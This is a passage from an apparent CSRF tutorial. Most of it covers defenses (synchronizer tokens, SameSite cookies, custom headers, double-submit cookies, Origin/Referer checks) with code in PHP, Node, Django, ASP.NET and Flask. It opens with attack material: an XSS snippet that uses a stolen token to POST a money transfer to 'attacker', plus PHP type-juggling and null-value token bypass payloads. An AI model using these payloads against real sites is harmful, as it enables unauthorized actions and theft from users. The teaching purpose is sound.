// Or use stolen token immediately
fetch('https://target.com/transfer', {
    method: 'POST',
    credentials: 'include',
    headers: {'Content-Type': 'application/x-www-form-urlencoded'},
    body: 'csrf_token=' + token + '&amount=1000&to=attacker'
});
</script>

💥 XSS defeats ALL CSRF protections
```

**Bypass 17: Type Juggling (PHP)**

```http
🎯 VULNERABLE PHP CODE:
if ($token == $expected_token) { allow(); }
// Using == not ===

✅ BYPASS:
csrf_token=0  // Integer 0
expected_token=abc123  // String

In PHP: 0 == "abc123" → TRUE!

Or array injection:
csrf_token[]=bypass
```

**Bypass 18: Null/Special Characters**

```http
✅ BYPASS OPTIONS:
csrf_token=null
csrf_token=%00
csrf_token=undefined
csrf_token[]
csrf_token=

💥 May break validation logic
```

---
---

# 🛡️ **9. PREVENTION & MITIGATION**

---

### **1️⃣ CSRF Tokens (Synchronizer Token Pattern)**

#### **The most effective CSRF defense**

```
🎯 HOW IT WORKS:
┌────────────────────────────────────────────┐
│ 1. Server generates unique, random token   │
│ 2. Token stored in user's session          │
│ 3. Token embedded in forms/requests        │
│ 4. Server validates token on submission    │
│ 5. Reject if missing or invalid            │
└────────────────────────────────────────────┘

🔐 TOKEN REQUIREMENTS:
✅ Unpredictable (cryptographically random)
✅ Unique per session
✅ Secret (not in URL)
✅ Tied to user session
✅ Rotated after use (best practice)
```

**Implementation Examples:**

```php
<!-- 🛡️ PHP Implementation -->
<?php
session_start();

// Generate token
if (empty($_SESSION['csrf_token'])) {
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}

// In form
?>
<form method="POST" action="/transfer">
    <input type="hidden" name="csrf_token" 
           value="<?php echo $_SESSION['csrf_token']; ?>">
    <input type="text" name="amount">
    <button type="submit">Transfer</button>
</form>

<?php
// Validate on submission
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (!isset($_POST['csrf_token']) || 
        $_POST['csrf_token'] !== $_SESSION['csrf_token']) {
        die('CSRF token validation failed!');
    }
    
    // Process request
    processTransfer($_POST['amount']);
    
    // Regenerate token (best practice)
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
?>
```

```javascript
// 🛡️ Node.js/Express with csurf
const csrf = require('csurf');
const cookieParser = require('cookie-parser');

const csrfProtection = csrf({ cookie: true });

app.use(cookieParser());

// Render form with token
app.get('/form', csrfProtection, (req, res) => {
    res.render('form', { csrfToken: req.csrfToken() });
});

// Validate token
app.post('/transfer', csrfProtection, (req, res) => {
    // Token automatically validated by middleware
    // If invalid, request is rejected
    processTransfer(req.body.amount);
    res.send('Transfer successful');
});
```

```python
# 🛡️ Django (Built-in CSRF Protection)
# settings.py
MIDDLEWARE = [
    'django.middleware.csrf.CsrfViewMiddleware',
]

# In template
<form method="POST" action="/transfer/">
    
    <input type="text" name="amount">
    <button type="submit">Transfer</button>
</form>

# In view (automatic validation)
from django.views.decorators.csrf import csrf_protect

@csrf_protect
def transfer(request):
    if request.method == 'POST':
        # Token automatically validated
        amount = request.POST.get('amount')
        process_transfer(amount)
```

```csharp
// 🛡️ ASP.NET Core
// In Razor view
<form method="post" asp-action="Transfer">
    @Html.AntiForgeryToken()
    <input type="text" name="amount" />
    <button type="submit">Transfer</button>
</form>

// In controller
[HttpPost]
[ValidateAntiForgeryToken]
public IActionResult Transfer(decimal amount)
{
    // Token automatically validated
    ProcessTransfer(amount);
    return Ok();
}
```

---

### **2️⃣ SameSite Cookie Attribute**

```
🎯 SAMESITE ATTRIBUTE VALUES:

╔══════════════════════════════════════════════════════╗
║ VALUE   │ PROTECTION LEVEL  │ WHEN TO USE             ║
╠═════════╪═══════════════════╪═════════════════════════╣
║ Strict  │ 🔴 Maximum        │ Banking, Financial      ║
║         │                   │ High-security apps      ║
║         │ Cookies NEVER     │                         ║
║         │ sent cross-site   │ ⚠️ May break UX         ║
║         │                   │                         ║
║ Lax     │ 🟡 Moderate       │ Most websites           ║
║         │                   │ General applications    ║
║         │ Sent on GET       │                         ║
║         │ top-level nav     │ ✅ Default in Chrome    ║
║         │                   │                         ║
║ None    │ 🟢 No protection  │ Legacy/Third-party      ║
║         │                   │ widgets                 ║
║         │ Sent everywhere   │ ⚠️ Requires Secure      ║
╚══════════════════════════════════════════════════════╝
```

**Setting SameSite:**

```http
🔐 STRICT (Maximum Protection):
Set-Cookie: session=abc123; SameSite=Strict; Secure; HttpOnly

🔐 LAX (Balanced):
Set-Cookie: session=abc123; SameSite=Lax; Secure; HttpOnly

⚠️ NONE (No Protection):
Set-Cookie: session=abc123; SameSite=None; Secure; HttpOnly
```

**Implementation Examples:**

```php
// 🛡️ PHP
setcookie('session', $sessionId, [
    'samesite' => 'Strict',
    'secure' => true,
    'httponly' => true,
    'path' => '/'
]);
```

```javascript
// 🛡️ Express.js
app.use(session({
    secret: 'your-secret-key',
    cookie: {
        sameSite: 'strict',
        secure: true,
        httpOnly: true
    }
}));
```

```python
# 🛡️ Flask
from flask import session

app.config.update(
    SESSION_COOKIE_SAMESITE='Strict',
    SESSION_COOKIE_SECURE=True,
    SESSION_COOKIE_HTTPONLY=True
)
```

**SameSite Behavior:**

```
📊 WHAT GETS SENT WHEN:

Request Type              │ Strict │ Lax │ None
─────────────────────────┼────────┼─────┼──────
🔗 <a href="">           │   ❌   │ ✅  │  ✅
📝 <form method="GET">   │   ❌   │ ✅  │  ✅
📝 <form method="POST">  │   ❌   │ ❌  │  ✅
🖼️           │   ❌   │ ❌  │  ✅
📜 <script src="">       │   ❌   │ ❌  │  ✅
🎨 <link href="">        │   ❌   │ ❌  │  ✅
🔄 fetch/XMLHttpRequest  │   ❌   │ ❌  │  ✅
🪟 <iframe src="">       │   ❌   │ ❌  │  ✅
```

---

### **3️⃣ Custom Request Headers**

```
🎯 CUSTOM HEADER DEFENSE:

PRINCIPLE:
Simple requests (forms) cannot set custom headers
Requests with custom headers trigger CORS preflight
CORS preflight requires server permission
```

**Implementation:**

```javascript
// 🛡️ Client-side (SPA)
fetch('/api/transfer', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json',
        'X-Requested-With': 'XMLHttpRequest',  // Custom header
        'X-CSRF-Token': csrfToken               // Or this
    },
    credentials: 'include',
    body: JSON.stringify({ amount: 1000 })
});
```

```python
# 🛡️ Server-side validation
@app.route('/api/transfer', methods=['POST'])
def transfer():
    # Check for custom header
    if request.headers.get('X-Requested-With') != 'XMLHttpRequest':
        abort(403, 'Forbidden: Missing custom header')
    
    # Process request
    amount = request.json.get('amount')
    process_transfer(amount)
    return jsonify({'status': 'success'})
```

---

### **4️⃣ Double Submit Cookie**

```
🎯 HOW IT WORKS:
1. Server generates random token
2. Token set as cookie (readable by JS)
3. Client reads token from cookie
4. Client sends token in request header/body
5. Server compares cookie vs header/body
6. Both must match
```

**Implementation:**

```javascript
// 🛡️ Angular (Built-in)
// Angular automatically reads XSRF-TOKEN cookie
// and sends as X-XSRF-TOKEN header

// Server sets cookie
res.cookie('XSRF-TOKEN', csrfToken, {
    httpOnly: false,  // JS must read it
    secure: true,
    sameSite: 'strict'
});

// Client automatically includes header
// X-XSRF-TOKEN: [token value]
```

```javascript
// 🛡️ Manual Implementation
// Server
app.get('/form', (req, res) => {
    const token = generateToken();
    res.cookie('csrf_token', token, {
        httpOnly: false,  // Allow JS to read
        secure: true,
        sameSite: 'lax'
    });
    res.render('form');
});

// Client
fetch('/api/transfer', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json',
        'X-CSRF-Token': getCookie('csrf_token')  // Read from cookie
    },
    body: JSON.stringify({ amount: 1000 })
});

// Server validation
app.post('/api/transfer', (req, res) => {
    const cookieToken = req.cookies.csrf_token;
    const headerToken = req.headers['x-csrf-token'];
    
    if (!cookieToken || !headerToken || cookieToken !== headerToken) {
        return res.status(403).json({ error: 'CSRF validation failed' });
    }
    
    processTransfer(req.body.amount);
});
```

---

### **5️⃣ Origin & Referer Validation**

```
🎯 HEADER VALIDATION:

CHECK 1: Origin Header
• Sent on POST/PUT/DELETE/PATCH
• Indicates request origin
• Cannot be modified by attacker

CHECK 2: Referer Header
• Sent on most requests
• Full URL of requesting page
• Can be suppressed by user/browser
```

**Implementation:**

```javascript
// 🛡️ Origin/Referer Check
function validateOrigin(req, res, next) {
    const origin = req.headers.origin;
    const referer = req.headers.referer;
    const allowedOrigins = ['https://trusted-site.com'];
    
    // Check Origin first
    if (origin) {
        if (!allowedOrigins.includes(origin)) {
            return res.status(403).json({ 
                error: 'Invalid origin' 
            });
        }
    } 
    // Fallback to Referer
    else if (referer) {
        const refererOrigin = new URL(referer).origin;
        if (!allowedOrigins.includes(refererOrigin)) {
            return res.status(403).json({ 
                error: 'Invalid referer' 
            });
        }
    } 
    // Reject if both missing
    else {
        return res.status(403).json({ 
            error: 'Missing origin and referer headers' 
        });
    }
    
    next();
}

app.post('/transfer', validateOrigin, (req, res) => {
    processTransfer(req.body.amount);
});
```

---
